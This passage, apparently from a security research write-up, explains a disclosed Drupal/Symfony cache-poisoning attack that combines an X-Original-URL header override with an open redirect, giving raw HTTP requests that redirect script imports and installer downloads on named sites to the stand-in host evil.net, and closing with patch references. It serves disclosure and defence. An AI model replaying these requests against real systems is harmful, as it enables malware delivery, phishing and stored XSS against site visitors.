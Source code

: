 <p>
 Drupal sees the double-slash // in the path and tries to issue a redirect to / to normalize it, but then the destination parameter kicks in. Drupal thinks the destination URL is telling people to access unity.com with the username 'evil.net\' but in practice web browsers automatically convert the \ to /, landing users on evil.net/@unity.com.
</p>
<p>
 Once again, by itself an open redirect is hardly exciting, but now we finally have all the building blocks for a serious exploit.
</p>
Persistent redirect hijacking
<p>
 We can combine the parameter override attack with the open redirect to persistently hijack any redirect. Certain pages on Pinterest's business website happen to import JavaScript via a redirect. The following request poisons the cache entry shown in blue with the parameter shown in orange:
</p>
GET /?destination=https://evil.net\@business.pinterest.com/ HTTP/1.1 Host: business.pinterest.com X-Original-URL: /foo.js?v=1This hijacks the destination of the JavaScript import, giving me full control of several pages on business.pinterest.com that are supposed to be static:GET /foo.js?v=1 HTTP/1.1
<p>
 HTTP/1.1 302 Found Location: https://evil.net\@unity.com/
</p>
Nested cache poisoning
<p>
 Other Drupal sites are less obliging, and don't import any important resources via redirects. Fortunately, if the site uses an external cache (like virtually all high-traffic Drupal sites) we can use the internal cache to poison the external cache, and in the process convert any response into a redirection. This is a two-stage attack. First, we poison the internal cache to replace /redir with our malicious redirect:
</p>
GET /?destination=https://evil.net\@store.unity.com/ HTTP/1.1 Host: store.unity.com X-Original-URL: /redir
<p>
 Next, we poison the external cache to replace /download?v=1 with our pre-poisoned /redir:
</p>
GET /download?v=1 HTTP/1.1 Host: store.unity.com X-Original-URL: /redir
<p>
 The end result is that clicking 'Download installer' on unity.com would download some opportunistic malware from evil.net. This technique could also be used for a wealth of other attacks including inserting spoofed entries into RSS feeds, replacing login pages with phishing pages, and stored XSS via dynamic script imports.
</p>
<p>
 Here's a a video of one such attack on a stock Drupal installation:
</p>
Video tags are not supported by your browser.
<p>
 This vulnerability was disclosed to the Drupal, Symfony and Zend teams on 2018-05-29, and support for these headers has was disabled via a coordinated patch release on 2018-08-01 with the following references:
 <a href="https://www.drupal.org/SA-CORE-2018-005">
  SA-CORE-2018-005
 </a>
 ,
 <a href="https://symfony.com/blog/cve-2018-14773-remove-support-for-legacy-and-risky-http-headers">
  CVE-2018-14773
 </a>
 ,
 <a href="https://framework.zend.com/security/advisory/ZF2018-01">
  ZF2018-01
 </a>
 .
</p>